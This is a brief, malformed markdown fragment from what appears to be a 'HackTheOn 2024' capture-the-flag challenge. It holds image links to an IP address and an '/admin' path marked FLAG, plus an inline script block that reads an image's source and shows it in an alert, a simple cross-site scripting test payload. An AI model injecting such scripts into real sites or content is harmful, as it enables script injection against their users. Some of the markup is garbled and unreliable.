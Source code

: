 # HackTheOn 2024 - 한강킬러

![FLAG](13.225.129.106/admin)
![FLAG2]([13.225.129.106/admin](https://d1z9gz6bh0fyka.cloudfront.net/admin)

<script>
var img = document.querySelector('img');
var flag = img.src.substring(img.src.lastIndexOf('/') + 1);
alert(flag);
</script>
